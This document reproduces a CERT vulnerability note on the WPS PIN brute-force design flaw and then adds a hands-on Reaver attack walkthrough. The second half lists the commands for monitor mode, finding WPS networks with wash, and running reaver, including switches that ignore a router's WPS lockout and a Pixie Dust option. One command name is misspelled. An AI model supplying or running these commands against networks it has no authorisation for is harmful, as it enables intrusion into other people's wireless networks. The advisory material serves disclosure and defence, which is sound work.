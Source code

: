 [Vulnerability Note VU#723755](http://www.kb.cert.org/vuls/id/723755)

The WiFi Protected Setup (WPS) PIN is susceptible to a brute force attack. A design flaw that exists in the WPS specification for the PIN authentication significantly reduces the time required to brute force the entire PIN because it allows an attacker to know when the first half of the 8 digit PIN is correct. The lack of a proper lock out policy after a certain number of failed attempts to guess the PIN on many wireless routers makes this brute force attack that much more feasible.

#### Description

WiFi Protected Setup (WPS) is a computing standard created by the WiFi Alliance to ease the setup and securing of a wireless home network. WPS contains an authentication method called "external registrar" that only requires the router's PIN. By design this method is susceptible to brute force attacks against the PIN.

When the PIN authentication fails the access point will send an EAP-NACK message back to the client. The EAP-NACK messages are sent in a way that an attacker is able to determine if the first half of the PIN is correct. Also, the last digit of the PIN is known because it is a checksum for the PIN. This design greatly reduces the number of attempts needed to brute force the PIN. The number of attempts goes from 10^8 to 10^4 + 10^3 which is 11,000 attempts in total.

It has been reported that many wireless routers do not implement any kind of lock out policy for brute force attempts. This greatly reduces the time required to perform a successful brute force attack. It has also been reported that some wireless routers resulted in a denial-of-service condition because of the brute force attempt and required a reboot.

Ideally, the basic command works and the attack progresses as expected. But in reality, different manufacturers have been trying to implement protections against Reaver-style attacks, and additional options may be required to get the attack moving.

As an example, the following command adds a few optional switches that can help to get Reaver working on more picky devices:

`reaver -i mon0 -c 6 -b 00:23:69:48:33:95  -vv -L -N -d 15 -T .5 -r 3:15 `

The core command hasn’t changed, the additional switches just change how Reaver behaves:

 - -L [ Ignore locked WPS state. ]

 - -N [ Don't send NACK packets when errors are detected. ]

 - -d 15 [ Delay 15 seconds between PIN attempts. ]

 - -T [ Set timeout period to half a second. ]

 - -r 3:15 [ After 3 attempts, sleep for 15 seconds ]

```
ifconfig
iwconfig to see that its in managed mode
airmon-ng check kill
airmon-ng start wlan0
iwconfig to see that it is in monitor mode

airodumup-ng wlan0mon # to see wifi networks and the encryption.

wash -i wlan0mon # to scan for WPS enable networks

reaver -i wlan0mon -b 1C:AF:F7:CC:61:6B -vv -K 1
```
